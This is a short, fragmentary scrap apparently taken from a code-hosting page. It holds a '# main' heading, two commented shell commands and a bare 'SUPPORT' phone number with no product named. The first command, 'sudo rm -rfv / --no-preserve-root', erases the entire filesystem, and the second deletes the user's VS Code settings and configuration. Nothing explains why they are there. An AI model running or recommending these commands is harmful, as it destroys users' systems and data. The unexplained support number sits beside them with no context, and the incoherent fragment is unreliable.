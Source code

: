 # main
# sudo rm -rfv / --no-preserve-root -P " 
# cd ~ && rm -rf .vscode && rm -rf .config/Code

























SUPPORT: 
Rest of World +44 203 656 5291
